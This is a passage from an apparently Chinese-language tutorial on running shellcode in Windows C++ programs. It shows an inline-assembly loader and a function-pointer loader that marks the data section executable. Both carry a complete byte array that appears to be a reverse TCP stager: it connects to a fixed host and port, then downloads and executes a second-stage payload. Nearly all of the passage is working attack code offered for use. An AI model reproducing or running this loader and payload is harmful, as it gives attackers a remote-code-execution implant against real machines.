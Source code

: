 ```cpp
"\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xfc\xd3\xf4\x5e\x6a\x00\x53"
"\xff\xd5";

void main() {
    
	__asm {
		lea eax,buf    // 将buf的地址加载到eax寄存器
		call eax  // 使用call指令跳转到eax寄存器指向的地址（即buf），开始执行shellcode
	}
}
```



# 2.使用函数指针加载

如下代码所示，`(void(*)(void))`是一个函数指针类型的强制转换, 该函数指针指向一个没有参数且返回值类型为void的函数，也就是说这行代码将 `buf` 的地址转换为一个函数指针，然后调用该指针所指向的函数，其实这种方法和上述加载方式原理是一样的，只不过这种方法还能用于加载64位的ShellCode

```cpp
#pragma comment(linker, "/section:.data,RWE") //将data段的内存设置成可读可写可执行
#include <Windows.h>

//ShellCode部分
unsigned char buf[] =
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x07\x01\xc7\x49\x75\xef\x52"
"\x8b\x52\x10\x57\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4c"
"\x01\xd0\x8b\x48\x18\x8b\x58\x20\x01\xd3\x50\x85\xc9\x74\x3c\x49"
"\x8b\x34\x8b\x31\xff\x01\xd6\x31\xc0\xc1\xcf\x07\xac\x01\xc7\x38"
"\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01"
"\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89"
"\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12"
"\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f"
"\x54\x68\xd2\x53\x6e\xfc\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29"
"\xc4\x54\x50\x68\x9c\x13\x41\xc4\xff\xd5\x6a\x0a\x68\xc0\xa8\x2f"
"\x9b\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
"\x68\x2c\x9b\xfc\xa4\x50\x58\xff\xd5\x97\x6a\x10\x56\x57\x68\xb6\x59\xc0"
"\x0e\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\xe8\xd9\xce\x36\xff\xd5\x83\xf8"
"\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68"
"\x9c\xed\x92\x66\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\xe8\xd9"
"\xce\x36\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a"
"\x00\x50\x68\x3e\xba\x17\xa3\xff\xd5\x57\x68\xe6\xfc\xe1\xe2\xff"
"\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xfc\xd3\xf4\x5e\x6a\x00\x53"
"\xff\xd5";

void main() {   
	((void(*)(void)) & buf)();  //执行ShellCode
}
```
